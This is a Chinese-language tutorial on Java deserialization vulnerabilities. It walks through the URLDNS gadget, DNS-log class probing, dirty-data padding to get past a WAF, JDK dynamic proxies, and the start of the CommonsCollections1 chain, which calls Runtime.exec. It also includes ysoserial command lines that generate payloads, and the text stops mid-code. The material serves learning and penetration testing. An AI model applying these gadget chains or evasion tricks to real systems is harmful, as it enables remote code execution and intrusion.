# JDK反序列化

## 1. 反序列化漏洞原理

### 反序列化的用途

业务方为了跨机器传输实例化的对象数据，会通过 序列化与反序列化 这一过程机制来保证 对象数据的可靠。其中序列化指将对象转换为有序字节流 ，或是说二进制数据，这样一来方可方便进行传输；而反序列化则指将该二进制序列化转化为 对应的对象。Java中的序列化框架有多种，包括 二进制数据的（Java反序列化、Hessian ...）、json（fastjson jackson...）、xml（xstream、xmldecoder）、yaml 等。



本节课程我们介绍JDK反序列化问题，包括漏洞原理、构造链讲解、利用技巧、防护问题。

### 了解JDK反序列化

Java反序列化出现的常见场景：

- 远程通信：作为RPC协议或是被其他RPC协议包裹，如 http body传输、dubbo、t3
- 登陆凭证，token/cookie：shiro保存用户凭证信息、redis保存序列化凭证
- JNDI：RMI/LDAP利用中都可涉及到Java反序列化
- JDBC连接
- ...

被序列化传输的对象的class需为“可序列化”的，即该类应声明实现了 `Serializable` 接口或其子类（如Externalizable）：

```java
import java.io.Serializable;

public class Person implements Serializable {

    private String name;
    private int age;

    public Person(String name, int age){
        this.name = name;
        this.age = age;
    }

    @Override
    public String toString() {
        return "Person{" +
                "name='" + name + '\'' +
                ", age=" + age +
                '}';
    }
}
```

以下demo可以让我们对整个序列化过程有一个简单的直观了解，对应代码为 DeserDemo\Demo1\src ：

```java
public class Test {
    public static void serialize(Object obj,String file) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
        oos.writeObject(obj);
    }

    public static Object deserialize(String file) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(file));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception{
        System.out.println("输出的文件路径："+System.getProperty("user.dir"));
        Person person = new Person("tom",3);

        serialize(person,"person.ser");

        Object person2 =  deserialize("person.ser");
        System.out.println(person2);
    }
}
```

可以观察到，序列化的二进制文件开头有 `aced` 魔术标志（对应的base64编码字符为rO0A），我们在渗透测试过程中可以注意此类数据：




### 从URLDNS构造链入门

反序列化漏洞的利用通常有3个要素：kick-off （入口点） 、sink（污点） 、chain（调用链） ，综合组成了我们所说的 gadget（构造链）。入口点 指反序列化触发的起点、入口，可以为readObject等魔术方法 ；污点 指最终执行的动作，如 命令执行、写文件、信息探测 等；调用链 指 入口点 到 污点的一系列调用过程。魔术方法指反序列化机制本身会触发的一些方法。

本节学习 URLDNS gadget，该链条通过DNSLOG的方式来探测验证目标的是否存在JDK反序列化漏洞。

Java类`java.lang.Object`是所有类的的根，作为父类，`java.lang.Object` 实现了 `hashCode()`、`equals()`方法，这些方法会被集合、数组 数据所使用，其他类也可以重写这两个方法从而实现自身的 比较与排序 需求。

JDK反序列化过程中会触发魔术方法，如果被序列化的类重写了`readObject`方法，序列化过程中会调用该类的`readObject`方法来帮助完成反序列化这个过程。下图可见，HaspMap 数据被反序列化时，会调用 hash方法来获取 key 的哈希值，而该哈希值来源于 key 对象自身的 `hashCode` 方法的值。 



`java.net.URL` 的 hashCode  与 equals 方法都可以触发 getHostAddress ，而 getHostAddress 会通过 `InetAddress.getByName` 对主机名发出DNS查询请求，由此我们也明确了 java.net.URL 可用作dnslog探测信息，即作为污点。



我们可以通过如下代码进行测试验证：

```java
        URL url = new URL( "http://test1.dd9cf16a.dnslog.store");
        URL url2 = new URL( "http://test2.dd9cf16a.dnslog.store");
        url.hashCode();
        url2.equals(url);
```

另外需要注意（图 URL.java 中），当该 对象的 hashCode 不为 -1 ，即已经计算过了，会直接返回该计算过的值，不会调用后续的 handler.hashCode()，而默认put键值对后会自动计算并设置该值，导致我们序列化后的对象的hashCode值不为-1，因此我们在构造Payload需要在put键值对后将该值设置为 -1 。

据上述所说，我们可以构造如下代码生成序列化数据进行验证：

```java
    public static void main(String[] args) throws Exception{
        String file = "demo2.ser";
        HashMap<URL, Integer> hashMap = new HashMap<>();
        URL url = new URL( "http://test1.dd9cf16a.dnslog.store");
        hashMap.put(url, 0);
        Field f = java.net.URL.class.getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, -1);

        serialize(hashMap,file);

        deserialize(file);
    }

```

但是序列化的过程中会触发putVal方法导致触发我们的污点，导致我们的payload还没发送就被出发了（dnslog），所以这个构造还不够完美，参考 ysoserial ，我们利用 java.net.URL 序列化不会携带 handler 字段信息的这一特性 （handler字段被transient修饰了，表示序列化过程中忽略该字段，URL对象的数据是存放在其他字段中的），重写 handler 避免其进行 host 解析即可。 

```java
 //代码位于 DeserDemo\Demo2\
	static class SilentURLStreamHandler extends URLStreamHandler {
        protected URLConnection openConnection(URL u) throws IOException {
            return null;
        }
        protected synchronized InetAddress getHostAddress(URL u) {
            return null;
        }
    }
    
    public static void main(String[] args) throws Exception{
        String file = "demo2.ser";
        URLStreamHandler handler = new SilentURLStreamHandler();
        HashMap<URL, Integer> hashMap = new HashMap<>();
        URL url = new URL( null,"http://test1.dd9cf16a.dnslog.store",handler);
        hashMap.put(url, 0);
        Field f = java.net.URL.class.getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, -1);

        serialize(hashMap,file);

        deserialize(file);

    }
```

构造链就是HashMap到URL，调用过程如下：

```
HashMap.readObject()

-> HashMap.hash()

->URL.hashCode()

->URLStreamHandler.hashCode()

->URLStreamHandler.getHostAddress()
```


## 2. 利用技巧

### serialVersionUID 问题

JDK反序列化中的`serialVersionUID` 起到版本控制的作用，用于在序列化与反序列化中确保Class的版本一致，其形式如下所示：

```java
public class Foo implements Serializable {
    private static final long serialVersionUID = 1L;
}
```

当反序列化获得的Class的 serialVersionUID 与 本地库中的不一致会抛出如下异常使得反序列化失败：

```
Exception in thread "main" java.io.InvalidClassException: com.demo3.Foo; local class incompatible: stream classdesc serialVersionUID = 1, local class serialVersionUID = 2
	at java.io.ObjectStreamClass.initNonProxy(ObjectStreamClass.java:699)
	at java.io.ObjectInputStream.readNonProxyDesc(ObjectInputStream.java:1885)
	at java.io.ObjectInputStream.readClassDesc(ObjectInputStream.java:1751)
```

对应代码的具体判断逻辑为 ：在 “反序列化得到的Class是否实现了Serializable接口（model.serializable）== 库中的Class是否实现了Serializable接口（osc.serializable）  且  反序列化得到的Class不是数组类型的”  的情况下，判断 serialVersionUID 是否一致



通过让 `model.serializable` 为 false 或  `cl.isArray()`为true 我们可以避免被反序列化的类经过 serialVersionUID  一致性检查。

在具体的漏洞利用过程中，我们可能会遇到“目标应用存在gadget但由于seralVersionUID不一致 导致反序列化出错” 的问题，在 类探测 下我们可以参考上述逻辑来绕过uid检查从而避免对这一问题 “盲视野”，具体实现将在 “类探测”一节中一同说明。

### 类探测

在反序列化漏洞利用中，我们在多番使用各种gadget后可能还未能利用成功，这时我们可以暂停一下，使用“类探测”手段先确定目标应用的类库情况。通过对目标应用进行类探测，我们可以达到以下目的：

- 探测目标类是否在、或目标类未被拦截
- 判断JDK版本
- 判断中间件类型及版本（从而进一步的漏洞利用，写内存马）


类探测的探测思路与其他漏洞利用的大致思路是一致的，比较成熟的做法有 dnslog类探测、时间延迟类探测。

将我们需要探测的目标类的 Class或实例 放到键值对的value中，当目标类不存在时会在 value的 s.readObject() 这里就抛异常中断map的解析，不会触发后面的 putVal 方法，也就是说只有目标类存在时我们设置的对应dnslog value才会生效，这样一来我们即可达到通过 dnslog 进行类探测的目的。（代码流程中通过getResolveException判断类是否存在，并通过markException标记信息）



另外，为了避免serialVersionUID 问题，该类可以通过 makeClass 构造一个空类（没有uid字段），或是使用数组的形式，修改 1.3 中的URLDNS利用代码得到如下代码用于探测 com.demo.Foo 类是否存在于目标应用：

```java
//代码位于 DeserDemo\Demo3\src\main\java\com\demo3\TestUID.java
		String file = "demo3.ser";
        //使用makeClass需要避免显示引入 Foo.class导致重复加载
        //Class<?> targetClass = Utils.MakeClass("com.demo.Foo");
        Class<?> targetClass = Foo[].class;

        HashMap<URL, Object> hashMap = new HashMap<>();
        URL url = new URL(null, "http://footest1.d80b043e.dnslog.store", new SilentURLStreamHandler());
        
        hashMap.put( url, targetClass);

        Field f = java.net.URL.class.getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, -1);


        serialize(hashMap, file)
```

为了在一次请求中同时进行多个类探测，我们可以利用JDK反序列化对 重写 readObject&writeObject 的Class 的特殊处理逻辑，将上面的HashMap包裹在List中（任意重写readObject&writeObject的类）；或者简单点，如果被包括的对象的Class本身 重写了readObject方法，我们直接使用它的Array形式即可，这样Array里面的各对象也不会互相影响（HashMap重写了readObject）。

下图代码为 重写 readObject&writeObject 的Class被序列化时触发的关键逻辑：ClassNotFoundException会被暂时catch，此时如果该块序列化数据未处理完，后续的 skipCustomData->readObject0 会继续处理。也就是说，我们在顶层使用 List 包裹 这些 HashMap后，探测的目标类都存在，不抛 ClassNotFoundException 异常则都会在 slotDesc.hasReadObjectMethod 中处理，即便此中发生异常，则后续skipCustomData->readObject0 依然循环往复直完成整个反序化。



如下图代码所示， 当序列化数据块未结束，会继续调用readObject0 循环往复直到完成：




换个角度，由于 HashMap 重写了readObject，异常会被catch，我们直接使用其Array形式也可以。如图所示，Array会遍历各元素，通过 readObject0 进行反序列化：



相关测试代码如下，你可以通过ArrayList、LinkedList 来测试，也可以使用 Object[] 数组：

```java
//\DeserDemo\Demo3\src\main\java\com\demo3\TestDemo3List.java

//List list = new ArrayList();
//        MyListClass list = new MyListClass(10);
//        add(list, "com.demo.Foo");
//        add(list, "com.demo.FooNotexist");
//        add(list, "com.demo.Foo2");
//        add(list, "com.demo.FooNotexist2");

        Object[] list = new Object[10];
        String clazzName = "com.demo.common.TargetDetectClass";
        list[0] = makeMap(Utils.MakeClass(clazzName), clazzName.replaceAll("\\.", "") + ".d80b043e.dnslog.store");
        clazzName = "com.demo.FooNotexist";
        list[1] = makeMap(Utils.MakeClass(clazzName), clazzName.replaceAll("\\.", "") + ".d80b043e.dnslog.store");
        clazzName = "com.demo.common.TargetDetectClass2";
        list[2] = makeMap(Utils.MakeClass(clazzName), clazzName.replaceAll("\\.", "") + ".d80b043e.dnslog.store");
        clazzName = "com.demo.FooNotexist2";
        list[3] = makeMap(Utils.MakeClass(clazzName), clazzName.replaceAll("\\.", "") + ".d80b043e.dnslog.store");

        Serialize(list, file);
```

我们可以在关键逻辑点打上suspend不勾选的断点来输出日志，这里的代码有如下输出，类存在时的dnslog都成功触发：

```
java.net.URL#hashCode handler.hashCode breakpoint hit: http://comdemocommonTargetDetectClass.d80b043e.dnslog.store

java.io.ObjectInputStream#readSerialData handles.markException breakpont hit: java.lang.ClassNotFoundException: com.demo.FooNotexist

java.io.ObjectInputStream#readSerialData handles.markException breakpont hit: 
java.lang.ClassNotFoundException: com.demo.FooNotexist

java.net.URL#hashCode handler.hashCode breakpoint hit: http://comdemocommonTargetDetectClass2.d80b043e.dnslog.store

java.io.ObjectInputStream#readSerialData handles.markException breakpont hit: java.lang.ClassNotFoundException: com.demo.FooNotexist2
```


我们可以通过其他人编写的扩展工具来进行类探测：

```
java -jar .\ysuserial-1.5-su18-all.jar -g URLDNS -p 'all:xxxxxx.dns.log'
```

### 混淆数据（过WAF）

根据我们在 “类探测”一节所叙述的逻辑，我们可以在 有序的集合中（实现了readObject&writeObject方法的Class）中加入脏数据，从而尽可能混淆我们的payload来达到绕过WAF的拦截的目的。

```java
        String file = "demo3.ser";

        List list = new LinkedList();
        for (int i = 0; i < 100; i++) {
            list.add(Utils.MakeClass(getRandomString(10)));
        }
        // gadget
        list.add(makeMap(Utils.MakeClass("com.demo.common.TargetDetectClass"), "TargetDetectClass.d80b043e.dnslog.store"));
        list.add(getRandomString(10));

        Serialize(list, file);
```

可以利用现有工具来获取混淆payload，dt指定混淆类型，dl指定插入的混淆数据长度：

```
java -jar .\ysuserial-1.5-su18-all.jar -g CommonsCollections5 -p whoami -dt 2 -dl 1000
```

工具混淆关键逻辑代码位于：

```
org.su18.ysuserial.payloads.util.dirty.DirtyDataWrapper#doWrap
org.su18.ysuserial.Serializer.SuObjectOutputStream#writeStreamHeader
```

## 3. 构造链学习

### JDK动态代理

学习CommonCollections1构造链前我们先来学习一下JDK动态代理的基础知识，这是前置知识。

JDK动态代理提供了一种侵入性较小的方式让开发者在不改变原本业务类的代码的情况下，动态修改相关方法。但JDK动态代理要求被代理的类暴露相关接口（Interface），这点十分让人诟病，java开发者后来更流行的做法是通过cglib等方式来进行动态代理。而动态代理会生成新的类，后续需要使用该新生成的类的实例化对象来替换原始的对象，当然，动态代理的这种方式也可被称为AOP。

我们先通过一个简单的demo来了解动态代理，代码位于`DeserDemo\DemoTestCC\src\main\java\com\demo\testproxy`。

Business的一些方法通过SomeInterface暴露，或说Business实现了SomeInterface：

```java
public class Business implements SomeInterface {

    public void work() {
        System.out.println("business object : work");

    }

    @Override
    public void sayHello() {
        System.out.println("business object : sayHello");
    }

    @Override
    public void sayGoodbye() {
        System.out.println("business object : sayGoodbye");
    }
}
```

MyHandler 实现了InvocationHandler，被代理对象的暴露的接口方法在调用时，我们可以通过这里的 invoke 方法进行代理并自定义处理逻辑，如在方法 sayHello 方法前后分别新增 before after 调用：

```java
public class MyHandler implements InvocationHandler {
    // 原始对象，被代理的对象
    Object target;

    public MyHandler(Object target) {
        this.target = target;
    }
    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        if ("sayHello".equals(method.getName())) {
            before();
            Object result = method.invoke(target, args);  // 调用 target 的 method 方法
            after();
            return result;
        } else {
            return method.invoke(target, args);
        }
    }

    private void before() {
        System.out.println("MyHandler : before");
    }

    private void after() {
        System.out.println("MyHandler : after");
    }
```

这里的代码完整展现了JDK动态代理的使用：

```java
    public static void main(String[] args)  {
        // 输出动态生成的代理类 ，以 .class 文件形式输出在项目 DeserDemo\com\sun\proxy 路径下
        System.setProperty("sun.misc.ProxyGenerator.saveGeneratedFiles", "true");
        System.setProperty("jdk.proxy.ProxyGenerator.saveGeneratedFiles", "true");

        // 原始对象，被代理 的对象
        Business business = new Business();

        MyHandler handler = new MyHandler(business);

        SomeInterface businessProxy = (SomeInterface) Proxy.newProxyInstance(Thread.currentThread().getContextClassLoader(),
                new Class[]{SomeInterface.class},
                handler);

        businessProxy.sayHello();
        businessProxy.sayGoodbye();
    }
```

控制台有如下输出：

```
MyHandler : before
business object : sayHello
MyHandler : after
business object : sayGoodbye
```

动态生成的代理类 反编译后得到的部分java代码如下：

```java
public final class $Proxy0 extends Proxy implements SomeInterface {
    private static Method m3;
    private static Method m1;
    private static Method m0;
    private static Method m4;
    private static Method m2;

    public $Proxy0(InvocationHandler var1) throws  {
        super(var1);
    }

    public final void sayHello() throws  {
        try {
            super.h.invoke(this, m3, (Object[])null);
        } catch (RuntimeException | Error var2) {
            throw var2;
        } catch (Throwable var3) {
            throw new UndeclaredThrowableException(var3);
        }
    }

    public final void sayGoodbye() throws  {
        try {
            super.h.invoke(this, m4, (Object[])null);
        } catch (RuntimeException | Error var2) {
            throw var2;
        } catch (Throwable var3) {
            throw new UndeclaredThrowableException(var3);
        }
    }

```

### CC1

本节所讲构造链参考 `ysoserial-master\src\main\java\ysoserial\payloads\CommonsCollections1.java`，依赖三方库 `commons-collections:commons-collections:3.1`，Java版本通常需要<=7。

`AnnotationInvocationHandler` 用于处理注解类的动态 代理，构造函数传入的参数分别表示被代理的注解类型和注解的成员变量及变量值。

生成cc1构造链poc的代码如下，代码逻辑顺序与反序列化顺序相逆，我们后面以反序列化的逻辑来讲解该构造链：

```java
// DeserDemo\DemoTestCC\src\main\java\com\demo\testcc\TestCC1.java
	public InvocationHandler getCC1(final String command) throws Exception {
        final String[] execArgs = new String[] { command };

        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });

        // step 5
        // ConstantTransformer忽略输入key，单纯返回 Runtime.Class，该输出作为下个Transformer的输入
        // 第一个InvokerTransformer 的输入为Runtime.class，返回 method 对象，之后再调用该 method对象的invoke方法来反射调用Runtime
        // .getRuntime获取到一个Runtime对象，通过Runtime对象我们才能执行exec来执行命令
        final Transformer[] iTransformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),

                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, execArgs),
        };

        final Map innerMap = new HashMap();


        // step4
        // transformerChain 为 ChainedTransformer 实例化对象
        // ChainedTransformer.transform方法会遍历字段`Transformer[] iTransformers`进行迭代式的处理
        Reflections.setFieldValue(transformerChain, "iTransformers", iTransformers);

        // step3
        // LazyMap的实例化需要一个 Map对象 与一个 Transformer 对象
        // 当LazyMap.get(key)的入参key不在当前映射表中时，会先通过 factory.transform(key) 获取value，然后保存key-value
